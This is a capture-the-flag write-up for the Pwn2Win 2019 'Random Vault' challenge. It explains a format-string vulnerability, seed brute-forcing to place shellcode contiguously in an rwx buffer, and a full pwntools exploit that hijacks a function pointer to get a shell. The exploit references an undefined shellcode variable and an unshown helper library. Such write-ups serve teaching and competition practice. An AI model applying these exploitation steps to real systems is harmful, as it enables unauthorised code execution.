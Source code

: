 ```yaml
---
title: Random Vault -- Pwn2Win 2019 CTF
categories: [CTF Writeups]
tags: [pwn2win, pwn]
date: 2019-11-10
---
```


With [Jorge](https://twitter.com/jorge_cmartins)

**Points:** 303 (dynamic)
**Solves:** 18

## TL;DR
1. Only two Format String vulnerability allowed.
2. Use first Format String to bypass PIE mitigation
3. Use second Format String to:
    - change srand() seed value
    - change function pointer 
4. Built shellcode and get shell



## Reversing

#### Binary Mitigations

```
Arch:   amd64-64-little
RELRO:  FULL RELRO
STACK:  Canary Found
NX:     NX enabled
PIE:    PIE enabled
```

The binary functionality is pretty simple:

#### 1. Change username
Let's you change the username **once**, will lead to `printf(username)`. The `username` is a maximum of 80 bytes long.
#### 2. Store secret
- We can store 7 secrets in the `vault` (a buffer in the `.bss`).
- Each secret is indexed on the `vault` by the last byte of `rand()`, so we don't have full control where they are stored:
```c
for (i = 0; i <= 6; ++i){
    printf("Secret #%d: ", i+1);
    r = rand();
    local_buffer[i] = r & 0xff;
    scanf("%llu", &vault[local_buffer[i]]);
}
```
- After each store, a function pointer,`target`, is called which resets the  `seed` to `seed = time(0)` and asks us if we want to reset the vault.
#### 3. Reset vault
Clears the `vault` to 0, resets the `target` pointer, resets the `seed` to `time(0)`

> **Notes:**
> The `target`, `seed` and the`vault` are all together in the bss segment:
> ```
0x5000 -> target
0x5008 -> seed
0x5010 -> vault start
      ...
0x6000 -> vault end
```
>
> And this segment has `rwx` permissions: `mprotect(&target, 0x1000, 7)`

## Vulnerability

Doing some tests on the program, we quickly spotted a format string vulnerability on `Username`

```
Welcome to the Vault!
Username: %p|%p|%p|%p
=== VAULT ===
Hello, 0x2|0xf|(nil)|0x5

Actions:
1. Change username
2. Store secret
3. Reset vault
4. Quit
```

## Exploitation

Since we can leak stack values with `username`, we immediately got the `stack cookie` and defeated `PIE mitigation`, now we know where the `target`, `seed` and `vault` are. Getting the `stack cookie` turned out to be useless since no overflow was found.
We need to keep in mind that we can write to `vault` which has `rwx` permissions, and we can overwrite `target`, with the format string, to point to the `vault`. So we need to write shellcode to the `vault`, and overwrite `target` to point to our shellcode.
There are two problems with this approach:
1. We can't control the exact location where we write in the `vault`, because the indexes are generated from the `rand()` call.
2. Brute forcing the indexes to be contiguous on a fixed offset was taking too much time.
3. If we first get a contiguous shellcode, we can't then jump to it because changing the username to alter `target` will reset the `vault`.

To solve both of this problems we could to find a `seed` value that generates at least 4 consecutive indexes out of the 7 (i.e., 1, 2, 3, 4) in order for our shellcode to be contiguous. Since our shellcode is 27 bytes long, we padded it with `nops` it becomes 32 bytes = 4 * 8.
Finding the seed is quite straightforward, with `seed = 0xdcd8`, we get 
following indexes: `12, 215, 164, 11, 64, 9, 10`
This was the script we wrote:
```python
from ctypes import *
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")

for seed in range(0, 0x10000):
    this_round = []
    libc.srand(seed) 
    for _ in range(7):
        this_round.append(libc.rand() & 0xff)
        
    this_round.sort()
    counter = 0
    for i in range(7-1): 
        if this_round[i + 1] - this_round[i] == 1:
            counter += 1
        else:
            counter = 0
        if counter == 3:
            # show the seed and the offset to jump to
            print "seed ", hex(seed)
            print "first offset ", this_round[i+1-3]
            break
```

We have to keep in mind that the `username` buffer is only 80 bytes long, and we are on a 64-bit architecture, so have to be conservative with what we want to write.  
Because of this, we had to only partially overwrite the `target` so we could also overwrite the `seed`. 

This is our final exploit:
```python
from pwn import *
from fs_lib import *

def leak(io):
    payload = "%9$p|%11$p"
    io.sendlineafter("Username: ", payload)
    io.recvuntil("Hello, ")
    output = io.recvline()
    cookie = int(output.split("|")[0], 16)
    elf    = int(output.split("|")[1], 16) - 0x1750

    return (cookie, elf)

def exploit():
    io = remote("200.136.252.34", 1245)

    cookie, elf = leak(io)

    target = elf + 0x5000
    check  = elf + 0x4028
    vault  = elf + 0x5010
    seed   = elf + 0x5008

    log.info("cookie @ {}".format(hex(cookie)))
    log.info("elf    @ {}".format(hex(elf)))
    log.info("target @ {}".format(hex(target)))
    log.info("check  @ {}".format(hex(check)))



    seed_value = 0xdcd8
    first_rand_index = 9
    fptr_value = (vault & 0xffff) + first_rand_index*8

    # homegrown format string library
    fs = FormatString(offset=24)
    # write in 1 go, will overwrite the entire seed
    fs.write(value=seed_value, step=8, addr=seed)
    # write short (hn) will only overwrite 2 bytes
    fs.write(value=fptr_value, step=2, addr=target)
    payload = fs.payload()
    
    #overwrite target and seed
    io.sendline("1")
    io.sendline(payload)
    
    #write shellcode to vault
    io.sendline("2")
    io.sendlineafter(": ", str(u64(shellcode[-8:])))
    io.sendlineafter(": ", "+") # skip scanf
    io.sendlineafter(": ", "+")
    io.sendlineafter(": ", str(u64(shellcode[-16:-8])))
    io.sendlineafter(": ", "+")
    io.sendlineafter(": ", str(u64(shellcode[:8])))
    io.sendlineafter(": ", str(u64(shellcode[8:16])))

    io.interactive()
    io.close()

exploit()
#CTF-BR{_r4nd0m_1nd1c3s_m4ke_th3_ch4ll3nge_m0r3_fun_}
```

